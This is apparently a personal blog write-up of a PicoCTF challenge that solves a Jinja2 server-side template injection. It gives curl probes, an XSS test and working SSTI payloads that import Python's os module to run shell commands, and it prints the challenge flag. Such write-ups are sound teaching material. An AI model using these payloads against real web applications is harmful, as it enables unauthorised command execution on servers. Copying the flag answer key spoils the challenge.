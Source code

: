 ```yaml
---
title: 'PicoCTF Writeup #492'
date: 2025-08-19T11:09:54+07:00
draft: false
description: ''
tags: ['ctf', 'ssti']
---
```



## PicoCTF Writeup – Server-Side Template Injection (SSTI)

Recently, I played around with a PicoCTF [challenge 492](https://play.picoctf.org/practice/challenge/492). The challenge looked like a simple web app that lets you "announce whatever you want." Naturally, I fired up my terminal and started poking at it with `curl`. By the way, we can also visit the website and experiment with the form instead.

```bash
curl -X GET http://rescued-float.picoctf.net:49878/announce -i
```

Response:

```
HTTP/1.1 405 METHOD NOT ALLOWED
Allow: POST, OPTIONS
```

Looks like only `POST` is allowed, so I retried with:

```bash
curl -X POST http://rescued-float.picoctf.net:49878/announce -i
```

This time, I got a `200 OK`. Sweet — we can actually interact with the app.


## First Thoughts

The description said:

> “I made a cool website where you can announce whatever you want!
> I heard templating is a cool and modular way to build web apps!”

That last line screamed *templating*. My first instinct was to try some basic XSS. Sure enough:

```html
<script>alert("HELO")</script>
```

triggered an alert box. Nice, but XSS wasn’t the way to the flag.


## Pivot to SSTI

The title of the challenge hinted at **Server-Side Template Injection (SSTI)**. From the headers I noticed the app was running **Werkzeug (Python/3.8)**. That strongly suggested **Jinja2** templating under the hood.

I tested with some Jinja syntax:

```
{{}}
```

and got an **Internal Server Error**. That confirmed I was on the right track — this was a template engine at work.


## Digging Deeper

Here’s where I hit a wall. I’d never really done an SSTI attack before. After some research, I learned about Python’s **MRO (Method Resolution Order)** and how it could be abused to reach Python internals, including modules like `os`.

Turns out you can chain through Jinja’s builtins and reach Python’s `os` library. Once you can execute system commands, it’s game over.

Payload to list files:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

That revealed a file named `flag`.

Payload to read it:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

And boom — got the flag.


## The Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
```


## Takeaways

* Don’t stop at XSS — sometimes it’s just a red herring.
* Jinja2 + careless input handling = a playground for SSTI.
* The Method Resolution Order (MRO) trick is incredibly powerful when exploring Python internals.

This was my first real SSTI exploit, and it was a fun rabbit hole to fall into. Definitely a good reminder of how dangerous improper template handling can be.
